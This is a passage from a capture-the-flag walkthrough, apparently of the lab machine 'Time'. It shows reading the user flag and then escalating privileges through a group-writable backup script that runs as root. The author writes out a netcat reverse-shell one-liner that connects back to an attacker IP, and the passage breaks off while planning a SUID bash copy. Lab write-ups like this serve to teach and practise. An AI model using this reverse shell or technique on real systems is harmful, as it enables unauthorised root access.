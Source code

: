 And there is the shell as user pericles (I also upgraded it so that shortcuts work). 

## User Flag

---

Let's try to get that user flag:

```bash
pericles@time:/var/www/html$ cd /home/pericles/
pericles@time:/home/pericles$ ls
snap  user.txt
pericles@time:/home/pericles$ cat user.txt
a2**************************ec0e
```

# Privilege Escalation

---

I ran LinPEAS, here is the most interesting thing that I found:

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group pericles:
/usr/bin/timer_backup.sh
```

It's a script called `timer_backup.sh` to which I can write to. The name timer could mean that the script is executed in a time interval. So let's view the contents of this file and check if it's really world writable:

```bash
pericles@time:/usr/bin$ cat timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
pericles@time:/usr/bin$ ls -l timer_backup.sh 
-rwxrw-rw- 1 pericles pericles 88 Sep 29 12:25 timer_backup.sh
```

The file creates a backup and stores it in the root directory. So it must run as root. I will try to get a reverse shell using this file:

```bash
pericles@time:/tmp$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f
```

A reverse shell spawns, but it quickly dies (approximately after 10 seconds). So I need to create rootbash (copy of /bin/bash with the SUID bit set). I tried /tmp, but the user pericles could not see it (I checked it later with root permissions and it exists). So I tried the home directory of the user pericles.

Change the script so that it looks like this (no reverse shell needed):
